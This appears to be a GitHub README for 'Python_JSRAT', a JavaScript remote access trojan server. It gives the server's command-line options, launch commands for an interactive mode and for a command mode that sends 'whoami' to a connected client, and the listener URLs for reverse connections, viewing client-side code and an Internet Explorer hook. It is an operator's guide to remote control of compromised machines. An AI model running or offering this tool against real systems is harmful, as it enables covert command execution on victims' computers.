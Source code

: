 # How to Use Python_JSRAT:

## JSRat Server Usage
```
JSRat Server
Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```
## Two Modes:
```
  1-Interactive mode
   python MyJSRat.py -i 192.168.1.101 -p 8080
```
```
  2-Command mode
  python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
## Url explain:
* http://192.168.1.101:8080/connect  default reverse url
* http://192.168.1.101:8080/wtf To see the code ran on the client
* http://192.168.1.101:8080/hook IE hook link
